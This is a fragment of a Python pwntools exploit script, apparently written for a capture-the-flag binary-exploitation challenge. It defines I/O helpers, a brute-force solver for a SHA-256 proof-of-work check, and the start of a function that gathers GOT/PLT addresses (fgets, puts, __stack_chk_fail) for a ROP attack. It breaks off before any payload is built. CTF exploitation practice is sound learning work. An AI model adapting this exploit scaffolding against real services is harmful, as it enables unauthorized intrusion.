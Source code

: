    def sn(a):
    	p.send(a)
    
    def rl():
    	return p.recvline()
    
    def sl(a):
    	p.sendline(a)
    
    def rv(a):
    	return p.recv(a)
    
    def raddr(a,l=None):
    	if l == None:
    		return u64(rv(a).ljust(8,'\x00'))
    	else:
    		return u64(rl().strip('\n').ljust(8,'\x00'))
    
    def lg(s,addr):
    	print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))
    
    def sa(a,b):
    	p.sendafter(a,b)
    
    def sla(a,b):
    	p.sendlineafter(a,b)
    
    def change_2_data():
    	sl('.data')
    
    def change_2_text():
    	sl('.text')
    
    def input_data(data):
    	payload = 'pop_ret' + ' ' + str(pop_ret)
    	sl(payload)
    	sl(data)
    
    def input_code(code):
    	sl(code)
    
    def fuckingsha256():
    	chal = rl().strip('\n')
    	for i0 in range(0x100):
    		for i1 in range(0x100):
    			for i2 in range(0x100):
    				for i3 in range(0x100):
    					sol = chr(i0)+chr(i1)+chr(i2)+chr(i3)
    					if(sha256(chal + sol).digest().startswith('\0\0\0')):
    						return sol
    
    def hack():
    	raw_input()
    
    	if local == 0:
    		res = fuckingsha256()
    		sl(res)
    	fgets_got = pwn_elf.got['fgets']
    	fgets_plt = pwn_elf.plt['fgets']
    	puts_plt = pwn_elf.plt['puts']
    	stack_chk_fail_got = pwn_elf.got['__stack_chk_fail']
    	addr_bss = pwn_rop.section('.bss') + 0x200
    	
